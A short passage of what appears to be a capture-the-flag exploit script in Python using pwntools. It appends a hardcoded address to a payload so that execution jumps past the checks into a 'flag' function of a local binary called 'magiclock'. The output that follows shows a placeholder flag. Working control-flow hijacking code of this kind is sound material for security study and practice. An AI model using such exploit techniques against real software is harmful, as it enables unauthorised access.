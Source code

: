 ```python
payload += p64(0x0000000000402231)          # jump in the middle of the flag function to bypass the checks

p.sendline(payload)

p.interactive()

"""
OUTPUT:
[+] Starting local process './magiclock': pid 50329
[*] Switching to interactive mode


=============================
You close your eyes to conjur the mana within...
==============================


=============================
The air around you starts to vibrate.
Now all thats left is to unleash the arcane!

You've got a good feeling about this!
==============================

stf{FLAG}
"""
```

